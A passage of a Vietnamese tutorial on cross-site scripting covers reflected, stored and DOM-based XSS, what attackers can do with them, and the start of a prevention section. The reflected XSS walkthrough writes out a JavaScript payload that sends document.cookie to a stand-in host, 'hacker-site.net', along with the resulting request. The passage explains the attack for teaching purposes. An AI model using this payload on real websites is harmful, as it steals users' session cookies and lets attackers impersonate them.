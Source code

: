1. Người dùng đăng nhập web và giả sử được gán session:
Set-Cookie: sessId=5e2c648fa5ef8d653adeede595dcde6f638639e4e59d4

2. Bằng cách nào đó, hacker gửi được cho người dùng URL:
http://example.com/name=var+i=new+Image;+i.src=”http://hacker-site.net/”%2Bdocument.cookie;

Giả sử example.com là website nạn nhân truy cập, hacker-site.net là trang của hacker tạo ra

3. Nạn nhân truy cập đến URL trên

4. Server phản hồi cho nạn nhân, kèm với dữ liệu có trong request (đoạn javascript của hacker)

5. Trình duyệt nạn nhân nhận phản hồi và thực thi đoạn javascript

6. Đoạn javascript mà hacker tạo ra thực tế như sau:

var i=new Image; i.src=”http://hacker-site.net/”+document.cookie;

Dòng lệnh trên bản chất thực hiện request đến site của hacker với tham số là cookie người dùng:

GET /sessId=5e2c648fa5ef8d653adeede595dcde6f638639e4e59d4 HTTP/1.1

Host: hacker-site.net

7. Từ phía site của mình, hacker sẽ bắt được nội dung request trên và coi như session của người dùng sẽ bị chiếm. Đến lúc này, hacker có thể giả mạo với tư cách nạn nhân và thực hiện mọi quyền trên website mà nạn nhân có.

### 3.2. Stored XSS.
- Stored XSS khác với Reflected XSS, hình thức này nhắm đến nhiều nạn nhân cùng lúc. Đây là nơi script độc hại đến từ cơ sở dữ liệu của trang web. Hacker chèn các mã độc vào cơ sở dữ liệu thông qua các dữ liệu đầu vào như input, form,… Khi người dùng truy cập và tiến hành những thao tác liên quan đến dữ liệu đã lưu thì mã độc sẽ lập tức hoạt động trên trình duyệt.

![StoredXSSImage](https://static.vietnix.vn/wp-content/uploads/2022/03/stored-xss.webp "StoredXSS")

### 3.3. DOM-based XSS.
- DOM-based XSS là nơi lỗ hổng bảo mật tồn tại trong mã phía client chứ không phải mã phía server. Hình thức này dùng để khai thác XSS dựa vào việc thay đổi HTML của tài liệu, hay nói cách khác là thay đổi cấu trúc DOM.

## 4. XSS có thể làm gì?
- Hacker khai thác lỗ hổng XSS trên nhiều trang web thường có thể:
    - Mạo danh hoặc giả dạng người dùng của nạn nhân.
    - Thực hiện bất kỳ hành động nào mà người dùng có thể thực hiện.
    - Đọc bất kỳ dữ liệu nào mà người dùng có thể truy cập.
    - Nắm bắt thông tin đăng nhập của người dùng.
    - Thực hiện thay đổi bề mặt ảo của trang web.
    - Chèn trojan độc hại vào trang web.

## 5. Cách ngăn chặn tấn công XSS.
- Kiểu tấn công này là một trong những kiểu tấn công có nhiều nguy hiểm và rủi ro nhất. Tuy nhiên, vẫn có rất nhiều cách để ngăn chặn tấn công này. Phương pháp ngăn chặn tấn công XSS bao gồm:
